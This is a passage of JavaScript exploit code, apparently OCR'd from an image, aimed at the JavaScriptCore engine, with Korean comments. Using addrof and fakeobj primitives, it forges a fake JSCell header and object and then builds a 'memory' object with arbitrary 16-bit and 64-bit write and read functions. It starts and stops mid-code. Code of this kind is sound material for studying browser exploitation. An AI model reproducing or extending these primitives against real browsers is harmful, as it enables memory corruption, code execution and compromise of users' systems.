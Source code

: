 ```javascript
        return 10;
    }});

    return b[4];
}

function pwn()
{
    var JSCellHeader = new Int64([
        0xef, 0xbe, 0xad, 0xde, // TypedArray가 아닌 객체에선 무의미함
        0x06,		                // DoubleShape
        0x2c,		                // Float64ArrayType
        0x08,		                // OverridesGetOwnPropertySlot
        0x01		                // DefinitelyWhite
    ]);

    var victim = [];
    victim.prop = 31337;
    print("[+] victim = " + addrof(victim));
    
    var container = {
        JSCell : JSCellHeader.asJSValue(),
        Butterfly : victim
    };

    var fakeshape = fakeobj(Add(addrof(container), 0x10));
    print("[+] fakeshape = " + addrof(fakeshape));

    // victim.prop는 (victim's Butterfly - 0x10)에 위치함
    memory = {
        // 0x7fffffff보다 큰 값은 double형 값으로 인코딩되어 버리기에 2 bytes씩 씀
        // 0x7fffffff = 0xffff00007fffffff
        // 0x80000000 = 0x41e1000000000000
        write16bits: function(addr, data) {
            fakeshape[1] = Add(addr, 0x10).asDouble();
            victim.prop = data;
        },

        // Int64 라이브러리를 통해 최대 64bit 만큼 값을 쓸 순 있으나,
        // 그에 해당하는 뷰를 생성할 수 없음
        // ( Float64Array를 사용하려면 값을 8 byte씩 끊어 따로따로 인코딩해줘야 되서 안됨 )
        write64bits: function(addr, data) {
            fakeshape[1] = Add(addr, 0x10).asDouble();
            victim.prop = data.asJSValue();
        },

        write: function(addr, data) {
            if((data.length % 2) != 0)
                data.push(0);

            var uint8View = new Uint8Array(data);
            var uint16View = new Uint16Array(uint8View.buffer);

            for(var i = 0; i < uint16View.length; i++)
                this.write16bits(Add(addr, 2 * i), uint16View[i]);
        },

        read64bits: function(addr) {
            fakeshape[1] = Add(addr, 0x10).asDouble();
            return addrof(victim.prop);
        },

        test: function() {
```